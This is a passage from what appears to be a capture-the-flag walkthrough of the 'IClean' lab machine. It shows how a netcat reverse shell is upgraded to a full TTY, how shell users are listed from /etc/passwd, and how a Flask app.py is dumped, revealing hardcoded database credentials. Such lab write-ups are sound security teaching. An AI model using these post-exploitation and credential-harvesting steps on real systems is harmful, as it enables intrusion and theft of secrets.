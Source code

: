 So I will use python instead and do the same as always for a proper shell:

```bash
www-data@iclean:/opt/app$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@iclean:/opt/app$ ^Z
[1]  + 40695 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 40695 continued  nc -lvnp 443
                                    reset xterm
www-data@iclean:/opt/app$ export TERM=xterm
www-data@iclean:/opt/app$ export SHELL=bash
www-data@iclean:/opt/app$ stty rows 50 columns 184
```

* ``python3 -c "import pty; pty.spawn('/bin/bash')"``: Spawns a tty.
* ``ctrl+z``: puts the shell in background for later doing a treatment.
* ``stty raw -echo;fg``: give us the shell back again.
* ``reset xterm``: resets the terminal to give us the bash console.
* ``export TERM=xterm``: let us do ctrl+l to clean the terminal.
* ``export SHELL=bash``: specifies the system that we are using a bash console.
* ``stty rows <YOUR ROWS> columns <YOUR COLUMNS>``: establishes the size of the current full terminal window, you can view the adequate running stty size on your machine (you 
can view it with `stty size` in a complete new window).

# Access as consuela

Looking at the users with shell (ends with sh), there is only one user called 'consuela' apart from root:

```bash
www-data@iclean:/opt/app$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
consuela:x:1000:1000:consuela:/home/consuela:/bin/bash
```

Also, in the app.py, to check the users it's using a SQL database:

```python
www-data@iclean:/opt/app$ cat app.py 
from flask import Flask, render_template, request, jsonify, make_response, session, redirect, url_for
from flask import render_template_string
import pymysql
import hashlib
import os
import random, string
import pyqrcode
from jinja2 import StrictUndefined
from io import BytesIO
import re, requests, base64

app = Flask(__name__)

app.config['SESSION_COOKIE_HTTPONLY'] = False

secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
app.secret_key = secret_key
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

```